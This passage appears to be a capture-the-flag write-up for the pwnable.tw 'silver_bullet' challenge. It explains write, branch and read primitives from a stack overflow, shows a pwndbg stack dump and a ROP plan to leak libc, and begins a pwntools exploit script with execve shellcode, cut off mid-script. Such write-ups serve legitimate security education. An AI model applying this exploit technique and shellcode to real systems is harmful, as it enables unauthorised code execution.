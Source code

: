 ### Write primitive

The write primitive is trivial - `0x30` bytes linear write on the stack, starting at certain offset within the `main`'s stack frame. 

### Branch Primitive

Recall we have the following layout, right after triggering the vuln:

```bash
pwndbg> x/30wx 0xffc05884
0xffc05884:     0x41414141      0x41414141      0x41414141      0x41414141
0xffc05894:     0x42424242      0x42424242      0x42424242      0x42424242
0xffc058a4:     0x43434342      0x43434343      0x43434343      0x43434343
0xffc058b4:     0x0000000f      0x00000000      0xea484637      0x00000001
0xffc058c4:     0xffc05954      0xffc0595c      0x00000000      0x00000000
0xffc058d4:     0x00000000      0xea61c000      0xea64cc04      0x00000001
0xffc058e4:     0x00000000      0xea61c000      0xea61c000      0x00000000
```

As we can see, I've created a scenario where the input buffer's real length is `0x30` bytes, while its recorded "power" is `0xf` (it is possible for this value to be even `1`). \
Hence, for the next call of `power_up` we would be able to write up to `0x30` bytes on the stack, starting at `0xffc058b4`. 
`0xea484637` stands for `__libc_start_main`, which is the return address of the `main` function. Hence, overwriting this content with the start of our ROP chain would yield trivial branch primitive. 

### Read primitive

While the `beat` method seems redundant, overwriting the werewolf's `name` member seems valuable, as it may give us an arbitrary read primitive, due to `printf("%s", werewolf->name)`. \
We can fully control the `hp` member, hence - making the program's while loop to end gracefully. \
Because there's no direct read primitive, I'd simply call a small ROP chain that would trigger `puts(puts)` (or similar) - leaking libc address, and jump back to `main`, restarting our program for the real ROP. 

## Solution

```python
#!/usr/bin/python3

from pwn import *

HOST = 'chall.pwnable.tw'
PORT = 10103
context.arch='i386'
BINARY = './silver_bullet'
LIBC = './libc_32.so.6'
LD = './ld-2.23.so'

GDB_SCRIPT = '''
b *0x80488fb
commands
    p "gonna strncat.."
end

c
'''

SHELLCODE = '''
mov ebx, {0}
xor ecx, ecx
xor edx, edx
push 0x0b
pop eax
```